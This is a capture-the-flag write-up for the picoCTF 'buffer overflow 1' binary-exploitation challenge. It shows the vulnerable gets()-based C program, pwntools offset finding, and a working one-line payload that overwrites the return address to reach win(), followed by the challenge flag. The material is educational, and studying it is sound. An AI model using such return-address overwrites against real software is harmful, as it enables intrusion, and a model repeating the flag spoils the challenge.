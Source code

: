 # buffer overflow 1
Points: 200

## Category
Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78 on the shell server. Source. 

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.

## Solution
Before looking at the source code, we can run the program first.

```
$ ./vuln 
Please enter your string: 
AAAA
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
```

Looks like it takes in an input, and jumps to an address. Let's look at the source code now.

```c
// Imports here...
#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
	char buf[FLAGSIZE];
	FILE *f = fopen("flag.txt","r");
	// Reading flag file
	printf(buf);
}

void vuln(){
	char buf[BUFSIZE];
	gets(buf);

	printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
	// Unimportant stuff
	puts("Please enter your string: ");
	vuln();
	return 0;
}
```

We can see that the address that it shows us is the return address, which should be the address of _main_. If we do a buffer overflow, we can take control of the return address, and let the program jump to wherever we want.

In this case, we would like to jump to the _win_ function, which prints out the flag.

Let's try spamming the program again to see if our hunch is correct.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault
```

The return address has been overwritten to _0x41414141_, which is the hex value of _A_. As long as we can find the correct amount of padding, we can control the where the return pointer returns to.

We can use the [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), which will find the padding we need. We will use _pwntools_.

```python
>>> from pwn import *
>>> cyclic(100)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

We can now feed that string into the program and see what address the program jumps to.

```
$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

Ok, it jumps to _0x6161616c_. We can use `cyclic_find()` to find the offset. First we convert the hex back into ASCII. Remember that this is in little endian format. `p32()` just converts the hex back into ASCII in little endian format.

```python
>>> from pwn import *
>>> cyclic_find(p32(0x6161616c))
44
```

Now we know the amount of padding required. Let's test it again, with 44 'A's, and another 4 'B's. We should expect the address to show _0x41414141_.

```
$ ./vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
Segmentation fault
```

Just as we expected. All that's left to do is to replace _BBBB_ with the ASCII values that corresponds to the address of the _win_ function.


```python
>>> from pwn import *
>>> vuln = ELF('./vuln')
[*] '/root/Desktop/picoCTF/Binary Exploitation/buffer overflow 1/solution/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win']) # Get address of win function
'\xcb\x85\x04\x08'
>>> 'A' * 44 + '\xcb\x85\x04\x08'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08'
```

Of course, we cannot type _\xcb\x85\x04\x08_ in ASCII format, so all we have to do is have Python output this string, and pipe it into the program _vuln_.

```
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{sample_flag}
Segmentation fault
```

Great! It works locally, all we have to do now is run it on the web shell.

```
$ cd /problems/buffer-overflow-1_3_af8f83fb19a7e2c98e28e325e4cacf78
$ python -c "from pwn import *; print 'A' * 44 + '\xcb\x85\x04\x08'" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy65489706}Segmentation fault
```

And we get the flag!

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{addr3ss3s_ar3_3asy65489706}`


附带参考资料https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-1
```sh
python2 -c "from pwn import *;print(44*'A'+(p32(0x080485cb)))"|./vuln
```
